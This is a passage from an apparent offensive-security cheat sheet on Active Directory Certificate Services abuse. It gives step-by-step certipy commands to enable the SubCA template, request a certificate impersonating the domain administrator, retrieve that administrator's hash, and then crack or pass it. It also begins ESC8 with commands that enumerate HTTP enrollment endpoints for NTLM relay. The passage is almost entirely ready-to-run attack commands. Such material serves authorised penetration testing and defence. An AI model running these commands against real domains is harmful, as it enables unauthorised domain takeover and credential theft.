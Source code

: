 Next, enable the template on the CA.

```bash
certipy ca -u username@example.local -p password -dc-ip <target-ip> -ca 'victim-ca' -enable-template 'SubCA'

# Check if the template enabled successfully
certipy ca -u username@example.local -p password -dc-ip <target-ip> -ca 'victim-ca' -list-template
```

Request the certificate for the template such as `SubCA`.

```bash
# -upn: Alternative UPN
certipy req -u username@example.local -p password -dc-ip <target-ip> -ca 'victim-ca' -template 'SubCA' -upn administrator@example.local -target example.local
```

If failed, we can issue the request with the request ID.

```bash
certipy ca -u username@example.local -p password -dc-ip <target-ip> -ca 'victim-ca' -issue-request <request-id>
certipy req -u username@example.local -p password -dc-ip <target-ip> -ca 'victim-ca' -target example.local -retrieve <request-id>
```

Now we have `administrator.pfx`. Using this, we can retrieve the hash.

```bash
certipy ca auth -pfx administrator.pfx -dc-ip <target-ip> -domain example.local -username administrator
```

Crack the hash and get the administrator’s password or execute pass-the-hash attack.

<br />

## ESC8

AD CS supports several HTTP-based enrollment methods via additional AD CS server roles that administrators can install. These HTTP-based certificate enrollement interfaces are all vulnerable NTLM relay attacks.

### Exploit

Enumerate enabled HTTP AD CS endpoints with `Certify`.

```sh
Certify.exe cas
```

To parse and list the CES endpoints in their AD object in the `msPKI-Enrollment-Servers`, execute the following command.

```sh
certutil -enrollmentServerURL -config DC.EXAMPLE.LOCAL\VULN-CA

Import-Module PSPKI
Get-CertificationAuthority | Select Name,Enroll* | Format-List *
```
